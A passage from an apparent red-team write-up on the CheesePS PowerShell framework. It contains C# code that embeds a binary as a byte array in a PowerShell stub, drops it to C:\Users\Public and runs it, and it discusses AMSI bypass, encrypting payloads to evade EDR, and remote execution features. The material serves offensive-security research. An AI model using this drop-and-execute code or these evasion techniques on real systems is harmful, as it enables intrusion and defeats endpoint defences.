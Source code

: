 An example of the code handling this functionality is as easy as the following:

```csharp
// Store and Execute code
string execute_stub = $"$PEBytes = [byte[]] (";
try
{
    // Function to get the byte-array representation of the binary
    byte[] assembly = LoadAssembly(execute_assembly, assembly_encrypted, aes_key);
    string destination = $"C:\\Users\\Public\\{Path.GetFileNameWithoutExtension(Path.GetRandomFileName())}.exe";

    // Returns
    //     $PEBytes = [byte[]] (0x4D, 05A, ... , 0x00);
    execute_stub += $"0x{BitConverter.ToString(assembly).Replace("-", ", 0x")} );";

    // Normal Execution (No reflective injection)
    // - Stores the file given as WriteAllBytes 
    execute_stub += $"[io.file]::WriteAllBytes('{destination}',$PEbytes);sleep 1;";
    // - Executes the saved file
    execute_stub += $"& '{destination}' {code}";
} catch {
    Console.WriteLine("ERROR: Something went Wrong");
}
```

### 2.6 Considerations

If AMSI is defused, Windows Defender doesn't prevent an attacker from importing modules like `PowerView` or `PowerUp`, but other A/V and EDR might get in the middle of the process. 
Moreover, some form of EDRs, and also Windows ATP, should be able to detect any attempt to patch `amsi.dll`, and may potentially be able to block the attempt.

To partially mitigate this problem, [CheesePS][1] encrypts the payload in transit, so that it might still get viewed by an EDR or an IPS in place, but it won't be "understood", potentially evading some form of detection. The payload then, will be decrypted just before use.

In the same way, entire binaries, dlls and other dynamically loadable content can be safely encrypted in transit and at rest.

However, this technique is not enough to completely avoid detection, and surely it won't be able to bypass AMSI, as the PowerShell Script Engine doesn't support the execution of an encrypted payload (and that is the reason why AMSI is so effective).

## 3 CheesePS

### 3.1 Functionalities

Talking about [CheesePS][1], the framework implements the following functionalities:

- Local Built-In AMSI Bypass
- Local Built-In WLDP Bypass
- Local/Remote Built-In CLM Bypass
- Local/Remote Command Execution
- Local/Remote Arbitrary PowerShell Module Import
- Local/Remote Binary Execution
    * Store and Run
    * Reflective Loading
    